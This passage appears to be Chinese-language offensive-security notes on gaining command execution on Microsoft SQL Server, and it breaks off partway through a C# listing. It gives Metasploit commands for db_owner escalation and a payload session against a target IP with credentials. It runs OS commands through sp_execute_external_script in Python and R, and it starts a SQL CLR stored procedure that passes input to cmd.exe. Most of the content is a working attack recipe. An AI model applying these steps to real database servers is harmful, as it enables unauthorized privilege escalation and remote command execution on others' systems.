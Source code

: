 	>use auxiliary/admin/mssql_escalate_dbowner
	>set rhosts 192.168.1.146
	>set username name
	>set password Password@1
	>exploit
	提权成功后获取会话
	>use exploit/windows/mssql/mssql_payload
	>set rhosts 192.168.1.146
	>set username name
	>set password Password@1
	>exploit
 #### 启用外部脚本执行命令
	查看服务器是否启用
	sp_configure 'external scripts enabled'
	GO
  	当maximum，config_value，run_value为1时则确认启动
	执行python
	>EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("ipconfig"))'
	执行R Script
	>EXEC sp_execute_external_script
	>@language=N'R',
	>@script=N'OutputDataSet <- data.frame(system("cmd.exe /c ipconfig",intern=T))'
	>WITH RESULT SETS (([cmd_out] text));
	>GO
 #### CLR
  	VS创建sql server数据库项目，选择目标平台和创建脚本.sql文件，修改目标框架和权限级别unsafe
	创建SQL CLR C#存储过程，写入代码
```csharp
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using System.Diagnostics;
using System.Text;
using Microsoft.SqlServer.Server;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void ExecCommand (string cmd)
    {
        // 在此处放置代码
        SqlContext.Pipe.Send("Command is running, please wait.");
        SqlContext.Pipe.Send(RunCommand("cmd.exe", " /c " + cmd));
    }
    public static string RunCommand(string filename,string arguments)
    {
        var process = new Process();

        process.StartInfo.FileName = filename;
        if (!string.IsNullOrEmpty(arguments))
        {
            process.StartInfo.Arguments = arguments;
        }

        process.StartInfo.CreateNoWindow = true;
        process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
        process.StartInfo.UseShellExecute = false;

        process.StartInfo.RedirectStandardError = true;
        process.StartInfo.RedirectStandardOutput = true;
        var stdOutput = new StringBuilder();
```